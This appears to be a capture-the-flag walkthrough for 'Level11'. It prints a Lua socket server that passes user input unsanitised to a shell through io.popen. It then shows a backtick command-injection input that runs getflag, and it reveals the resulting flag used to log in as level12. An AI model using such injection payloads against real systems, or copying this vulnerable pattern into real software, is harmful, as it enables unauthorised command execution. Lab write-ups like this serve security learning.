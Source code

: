 

# **Level11**

### **Walk through**

This timing we're facing a lua script `level11.lua`.

`cat level11.lua`

```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end

while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end

```

We can notice that there's a server listening on 127.0.0.1 -p 5151. 

`nc 127.0.0.1 5151`  
		`$> Password:`  

Looking at the script, we see that what we're going to input as "password" will be echoed. Indeed: **`prog = io.popen("echo "..pass.." | sha1sum", "r")`**  

Thanks to the past levels, we now know that everything we pass to the echo command between back ticks will be executed. 

If we give this as input: **\`getflag\` > /tmp/flag11** , we can `cat /tmp/flag11` which gives us **fa6v5ateaw21peobuub8ipe6s**

We will use it to log as level12

`su level12`
